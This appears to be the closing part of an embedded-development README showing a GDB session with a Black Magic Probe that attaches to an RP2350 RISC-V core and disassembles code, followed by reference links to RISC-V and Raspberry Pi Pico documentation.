Remote debugging using /dev/ttyBmpGdb
(gdb) monitor auto_scan
Target voltage: 3.3V
JTAG scan found no devices, trying SWD!
Available Targets:
No. Att Driver
 1      RP2350 rv32imac
 2      RP2350 rv32imac
(gdb) attach 1
Attaching to Remote target
warning: No executable has been specified and target does not support
determining executable automatically.  Try using the "file" command.
0x100000aa in ?? ()
(gdb) x/10i $pc
=> 0x100000aa:	addi	a1,a1,4
   0x100000ac:	addi	a2,a2,4
   0x100000ae:	bltu	a2,a3,0x100000a6
   0x100000b2:	ret
   0x100000b4:	addi	a3,sp,128
   0x100000b6:	addi	s0,sp,32
   0x100000b8:	unimp
   0x100000ba:	fld	fs0,0(s0)
   0x100000bc:	sw	a3,96(a5)
   0x100000be:	jal	0x100000be
(gdb) c
Continuing.
```


# More doc

- https://docs.riscv.org/reference/isa/
- https://github.com/riscv-software-src/riscv-isa-sim
- https://www.cs.sfu.ca/~ashriram/Courses/CS295/assets/notebooks/RISCV/RISCV_CARD.pdf
- https://github.com/Wren6991/Hazard3
- https://datasheets.raspberrypi.com/rp2350/rp2350-datasheet.pdf
- https://datasheets.raspberrypi.com/pico/getting-started-with-pico.pdf
- https://datasheets.raspberrypi.com/pico/raspberry-pi-pico-c-sdk.pdf
- https://www.raspberrypi.com/documentation/pico-sdk/index_doxygen.html
- https://github.com/raspberrypi/pico-examples


